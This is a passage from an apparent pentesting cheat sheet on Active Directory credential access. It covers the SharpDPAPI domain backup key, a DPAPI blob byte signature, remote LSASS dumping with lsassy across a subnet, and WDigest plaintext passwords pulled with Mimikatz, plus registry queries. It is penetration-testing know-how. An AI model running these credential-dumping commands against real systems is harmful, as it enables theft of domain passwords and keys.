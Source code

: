 Using SharpDPAPI
```
SharpDPAPI.exe backupkey /nowrap
```

You will potentially sometimes be able to identify binary blob encrypted using DPAPI based on 62 bytes:
```
01 00 00 00 d0 8c 9d df  01 15 d1 11 8c 7a 00 c0 4f c2 97 eb 01 00 00 00  d2 87 4b 1d ab ce 3d 43 a7 c8 43 4d bf ca ee fa  00 00 00 00 02 00 00 00 00 00 10 66 00 00 00 01  00 00 20 00 00 00
```

##### Lsassy
- https://github.com/Hackndo/lsassy

```
lsassy -d company.local -u jdoe -p Pass1234 192.168.1.0/24
```


### Bring Your Own Domain Controller
- https://blog.zsec.uk/byodc-attack/






## Misc : AD Audit

#### WDigest
- https://blog.xpnsec.com/exploring-mimikatz-part-1/

[Wdigest](https://docs.microsoft.com/pt-pt/previous-versions/windows/server/cc778868(v=ws.10)) was introduced in WinXP and designed to be used with HTTP protocol for authentication.  

Enabled *by default* in multiple versions of Windows:
- Windows XP
- Windows 8.0
- Server 2003
- Server 2008
- Server 2012

--> With *WDigest* plain text passwords are stored in LSASS.  

Retrieving using Mimikatz
```
sekurlsa::wdigest
```

Can be deactivated/activated setting to *1* the value of *UseLogonCredential* and *Negotiate* in **HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest**.  
--> If these registry keys don't exist or the value is "0", then WDigest will be deactivated.  

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v Negotiate
```
